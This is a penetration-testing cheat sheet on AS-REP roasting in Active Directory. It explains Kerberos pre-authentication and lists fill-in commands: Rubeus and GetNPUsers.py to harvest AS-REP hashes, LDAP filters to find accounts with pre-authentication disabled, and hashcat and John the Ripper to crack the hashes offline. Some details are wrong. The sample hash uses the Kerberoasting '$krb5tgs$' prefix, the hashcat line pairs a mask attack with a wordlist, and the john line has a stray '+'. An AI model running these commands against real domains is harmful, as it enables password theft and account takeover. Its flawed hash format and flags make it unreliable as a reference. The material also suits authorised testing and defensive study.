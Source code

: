 # Active Directory - AS_REP roasting

### Overview

An ASP_REP roasting attack is an attack on the `Kerberos` authentication
protocol that involves compromising the password of an user account that do not
require `Kerberos` pre-authentication.

The attack is based on the fact that the `KRB_AS_REP` response, in reply from
the `KDC (Key Distribution Center)` for an initial authentication request
`KRB_AS_REQ` to the `Authentication Service (AS)`, contains ciphertext
encrypted using the client's secret key.

By default, the `KRB_AS_REQ` must include a timestamp encrypted with the
client's secret key, in order to permit the verification of the user identity
before the `KDC` returns a `KRB_AS_REP` response. This verification is omitted
for user accounts that do not require `Kerberos` pre-authentication, i.e
accounts with the account property `DONT_REQ_PREAUTH`. These user accounts
secrets are exposed to offline cracking, against the ciphertext, attack that
are much faster and can not be time restricted.

### Automated DONT_REQ_PREAUTH user accounts discovery and export of AS-REP responses

The following tools can be used to automate the discovery of user accounts that
do not require `Kerberos` pre-authentication and the request and export of
`KRB_AS_REQ` response for offline cracking.

In order to enumerate the domain user accounts, `Rubeus` must be started in a
domain authenticated security context or provided working domain credentials.

```
Rubeus.exe asreproast /outfile:<FILE>
Rubeus.exe asreproast /format:john /outfile:<FILE>

Rubeus.exe asreproast /creduser:'<DOMAIN_FQDN>\<USERNAME>' /credpassword:'<PASSWORD>' /dc:<DC_HOSTNAME | DC_IP> /domain:<DOMAIN_FQDN> /outfile:<FILE_PATH>
```

### DONT_REQ_PREAUTH user accounts discovery

The following tools can be used to discover user accounts that do not require
`Kerberos` pre-authentication:

```
Get-ADUser -LdapFilter "(&(objectclass=user)(objectcategory=user)(useraccountcontrol:1.2.840.113556.1.4.803:=4194304))"
Get-ADUser -Server <DC_HOSTNAME | DC_IP> -Credential <PSCredential> -LdapFilter "(&(objectclass=user)(objectcategory=user)(useraccountcontrol:1.2.840.113556.1.4.803:=4194304))"

Get-NetUser -LdapFilter "(&(objectclass=user)(objectcategory=user)(useraccountcontrol:1.2.840.113556.1.4.803:=4194304))"
Get-NetUser -Server <DC_HOSTNAME | DC_IP> -Credential <PSCredential> -LdapFilter "(&(objectclass=user)(objectcategory=user)(useraccountcontrol:1.2.840.113556.1.4.803:=4194304))"
```

### Request and export of KRB_AS_REP responses

The following tools can be used to request and export `KRB_AS_REP` for user
accounts that do not require `Kerberos` pre-authentication:

```
Rubeus.exe asreproast /user:<USERNAME> /outfile:<FILE>
Rubeus.exe asreproast /dc:<DC_HOSTNAME | DC_IP> /domain:<DOMAIN_FQDN> /user:<USERNAME> /outfile:<FILE>

GetNPUsers.py '<DOMAIN>/' -usersfile <USERNAMES_FILE>
GetNPUsers.py '<DOMAIN>/' -dc-ip <DC_HOSTNAME | DC_IP> -usersfile <USERNAMES_FILE> -format john
```

### Offline cracking of KRB_AS_REP responses

Both `John the Ripper` (magnumripper fork) and `hashcat` can be used to crack
the `KRB_AS_REP` responses.

The hash needs to respect the following format to be recognized `hashcat`:

```
# ENCRYPTION_TYPE 23 = RC4
# ENCRYPTION_TYPE 17 = AES128
# ENCRYPTION_TYPE 18 = AES256

$krb5tgs$<ENCRYPTION_TYPE>$*<USERNAME>@<DOMAIN>:$85DA[...]
```

Depending on the tool used, the hash retrieved may need to be manually updated.

The following commands can be used to crack the `KRB_AS_REP` responses:

```
# Its recommended to use Hashcat on a Windows OS for better performance due to driver compatibility
hashcat64.exe -m 18200 -a 3 '[<HASH> | <HASHFILE>]' <WORDLIST>

john --wordlist=<WORDLIST> <HASHFILE>+
```

